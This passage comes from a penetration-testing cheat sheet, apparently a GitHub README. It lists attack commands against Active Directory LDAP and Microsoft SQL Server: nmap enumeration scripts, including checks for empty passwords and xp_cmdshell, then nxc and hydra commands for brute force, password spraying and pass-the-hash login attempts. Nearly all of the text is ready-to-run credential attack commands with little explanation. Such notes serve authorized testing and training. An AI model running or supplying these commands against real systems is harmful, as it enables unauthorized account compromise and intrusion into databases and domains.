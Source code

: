 * get machine account quota (for rbdc)

```
nxc ldap "domain_controller" -d "domain" -u "user" -p "password" -M maq
```


* [Infosec-Warrior](https://github.com/InfoSecWarrior/Offensive-Pentesting-Host/blob/main/LDAP/README.md)
* [nirajkharel](https://github.com/nirajkharel/AD-Pentesting-Notes)


## 1433 - MSSQL

* Enumeration via nmap

```
nmap --script ms-sql-info -p 1433 $IP
nmap --script ms-sql-config -p 1433 $IP
nmap --script ms-sql-empty-password,ms-sql-xp-cmdshell -p 1433 $IP
nmap --script ms-sql-* -p 1433 $IP
```

* Brute Force

```
nxc mssql $IP -u users.txt -p pass.txt --continue-on-success --local-auth
```

```
nxc mssql $IP -u users.txt -p pass.txt --continue-on-success
```

```
nxc mssql $IP -u users.txt -H hash.txt --continue-on-success --local-auth
```

```
nxc mssql $IP -u users.txt -H hash.txt --continue-on-success 
```

```
hydra -L usernames.txt -p password $IP mssql
```

```
hydra -l username -p passwords.txt $IP mssql
```


* Password Spraying

```
nxc mssql $IP -u users.txt -p password --no-brute --continue-on-success --local-auth
```

```
nxc mssql $IP -u users.txt -p password --no-brute --continue-on-success
```

```
nxc mssql $IP -u users.txt -H hash --no-brute --continue-on-success --local-auth
```
